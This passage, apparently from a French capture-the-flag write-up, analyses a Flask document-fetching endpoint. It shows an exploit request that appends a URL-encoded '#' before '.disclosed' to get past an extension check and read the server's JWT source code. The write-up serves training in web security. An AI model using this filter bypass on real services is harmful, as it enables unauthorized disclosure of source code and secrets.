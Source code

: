 ```python

    if (request.cookies.get("jwt") is None):
        raise NameError('Missing jwt cookie.')

    jwt.check(request.cookies.get("jwt"))

    location = request.args.get("location")
    if (location is None):
        raise NameError("Missing location parameter.")

    if (not location.endswith(".disclosed")):
    	raise NameError("Only .disclosed extension allowed.")

    content = requests.get("http://files.internal" + location)
    if (content.status_code == 404):
        abort(404)

    if (request.args.get("raw") is not None):
        return content.text

    return send_file(
        html2pdf.generate_pdf(content, jwt.get_kid(request.cookies.get("jwt"))),
        mimetype='application/pdf'
    )

if __name__ == "__main__":
    app.run(host="0.0.0.0")
```

Ce qui nous intéresse dans ce code source :
- dans `/auth`, on génère un jwt avec le role admin si notre ip de connexion est celle d'un admin (ça semble difficile de spoofer l'ip)
- pour accéder à `/leaks`, il faut avoir un jwt avec le role admin

On récupère le code source qui génère le jwt :

```bash
http://<challs>/api/document?location=/api_0aca881eb4_prod_v42_src/authz/jwt.py%23.disclosed&raw=true
```

> authz/jwt.py

```python

import jwt
import uuid
import secrets
import os

"""
	Return a JWT generated with a unique key for each user.
	Each key is stored in its own file on the jwt_keys folder.
"""
def generate(ip, data):

	key_name = str(uuid.uuid4()) + ".key"
	key_path = f"jwt_keys/{key_name}"

	user_secret = f"{ip}|{secrets.token_urlsafe(128)}"
	open(key_path, 'w').write(user_secret)

	return jwt.encode(data, user_secret, algorithm="HS512", headers={"kid": key_name})

"""
	Check if JWT is valid, signed and returns decoded jwt.
```